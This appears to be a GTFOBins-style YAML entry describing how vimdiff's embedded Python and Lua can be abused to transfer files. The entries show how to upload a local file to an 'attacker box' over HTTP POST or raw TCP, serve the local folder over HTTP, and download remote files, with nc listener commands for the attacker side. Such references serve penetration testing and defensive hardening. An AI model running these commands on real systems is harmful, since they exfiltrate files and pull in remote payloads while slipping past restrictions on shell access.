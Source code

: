 ```yaml
---
functions:
  file-upload:
    - description: This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        vimdiff -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["$PATH"], bytes(u.urlencode({"d":open(e["$LFILE"]).read()}).encode()))
        vim.command(":q!")'
    - description: Send a local file via TCP. Run `nc -l -p 4444 > "file_to_save"` on the attacker box to collect the file. This requires that `vimdiff` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        vimdiff -c ':lua local f=io.open(os.getenv("$LFILE"), 'rb')
          local d=f:read("*a")
          io.close(f);
          local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("$RHOST"),os.getenv("$RPORT"));
          t:send(d);
          t:close();'
  server:
    - description: This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
      code: |
        vimdiff -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["$LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
        vim.command(":q!")'
  file-download:
    - description: This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.
      code: |
        vimdiff -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["$RPATH"], e["$LFILE"])
        vim.command(":q!")'
    - description: Fetch a remote file via TCP. Run `nc target.com 4444 < "file_to_send"` on the attacker box to send the file. This requires that `vimdiff` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        vimdiff -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("$LPORT")));
          local c=s:accept();
          local d,x=c:receive("*a");
          c:close();
          local f=io.open(os.getenv("$NFILE"), "wb");
          f:write(d);
          io.close(f);'
---
```

